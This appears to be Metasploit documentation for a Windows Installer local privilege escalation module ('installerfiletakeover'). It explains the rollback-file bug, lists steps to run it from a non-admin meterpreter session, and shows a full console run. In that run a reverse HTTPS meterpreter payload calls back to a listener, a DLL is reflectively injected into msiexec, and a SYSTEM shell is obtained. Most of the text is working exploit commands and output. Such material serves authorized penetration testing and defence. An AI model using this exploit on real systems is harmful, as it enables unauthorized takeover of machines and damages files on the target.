 ## Vulnerable Application

On vulnerable versions of Windows, the Installer Service executes privileged file operations on 
the rollback file that is created in a standard user controlled directory. This behaviour can be 
triggered by failing installation the installation with a specific .msi file. The bug is abused
to redirect file creation into an arbitrary location in order to gain SYSTEM level privileges.
WARNING:
The elevation_service.exe (C:\Program Files (x86)\Microsoft\Edge\Application\*) on the target host
will be overwritten when the exploit runs.
This module has been tested against Windows 10 Pro x64.

## Options

## Verification Steps

1. Get a non-admin meterpreter session on Win10 RS5 x64
2. `use windows/local/installerfiletakeover`
3. `set session <session>`
4. `exploit`
5. Get a SYSTEM session

## Scenarios

### Windows 10 20H2 Build 10.0.19042 x64

```
msf6 exploit(windows/local/installerfiletakeover) > use windows/local/installerfiletakeover
[*] Using configured payload windows/x64/meterpreter/reverse_https
msf6 exploit(windows/local/installerfiletakeover) > set PAYLOAD windows/x64/meterpreter/reverse_https
PAYLOAD => windows/x64/meterpreter/reverse_https
msf6 exploit(windows/local/installerfiletakeover) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(windows/local/installerfiletakeover) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/installerfiletakeover) > show options

Module options (exploit/windows/local/installerfiletakeover):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.200.2.29      yes       The local listener hostname
   LPORT     8445             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 x64


msf6 exploit(windows/local/installerfiletakeover) > exploit

[!] SESSION may not be compatible with this module (missing Meterpreter features: stdapi_sys_process_set_term_size)
[*] Started HTTPS reverse handler on https://10.200.2.29:8445
[*] Checking target...
[*] Target looks good... attempting the LPE exploit
[*] Launching C:\Windows\SysWOW64\msiexec.exe to host the DLL...
[+] Process 12692 launched.
[*] Reflectively injecting the DLL into 12692...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] https://10.200.2.29:8445 handling request from 10.200.2.11; (UUID: 7esul2h6) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 7 opened (10.200.2.29:8445 -> 127.0.0.1) at 2021-12-04 09:22:07 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```